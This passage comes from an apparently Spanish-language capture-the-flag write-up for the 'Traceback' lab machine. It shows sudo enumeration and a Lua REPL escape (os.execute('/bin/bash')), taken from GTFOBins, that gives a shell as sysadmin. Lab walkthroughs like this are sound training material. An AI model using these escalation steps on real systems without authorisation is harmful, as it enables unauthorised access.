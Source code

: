 ```bash
webadmin@traceback:~$ ls -l
total 4
-rw-rw-r-- 1 sysadmin sysadmin 122 Mar 16  2020 note.txt
webadmin@traceback:~$ cat note.txt 
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
webadmin@traceback:~$ 
```

Y además enumerando un poco el sistema, vemos que podemos ejecutar `/home/sysadmin/luvit` como el usuario **sysadmin** sin necesidad de proporcionar contraseña.

```bash
webadmin@traceback:/$ id
uid=1000(webadmin) gid=1000(webadmin) groups=1000(webadmin),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
webadmin@traceback:/$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
webadmin@traceback:/$
```

Vamos a ejecutarlo.

```bash
webadmin@traceback:/$ sudo -u sysadmin /home/sysadmin/luvit
Welcome to the Luvit repl!
> help()
[string "REPL"]:1: attempt to call global 'help' (a nil value)
stack traceback:
        [string "REPL"]:1: in main chunk
        [C]: in function 'xpcall'
        [string "bundle:deps/repl.lua"]:97: in function 'evaluateLine'
        [string "bundle:deps/repl.lua"]:189: in function <[string "bundle:deps/repl.lua"]:187>
> 
```

Nos encontramos dentro de una shell interactiva que de acuerdo con la nota, podría ser de [***LUA***](https://www.lua.org/); por lo tanto, si vamos a nuestra página de confianza [GTFOBins](https://gtfobins.github.io/) y buscamos **lua**, vemos que podemos obtener una shell como el usuario propietario, en este caso **sysadmin**:

```bash
> os.execute("/bin/bash")
sysadmin@traceback:/$ whoami
sysadmin
sysadmin@traceback:/$
```
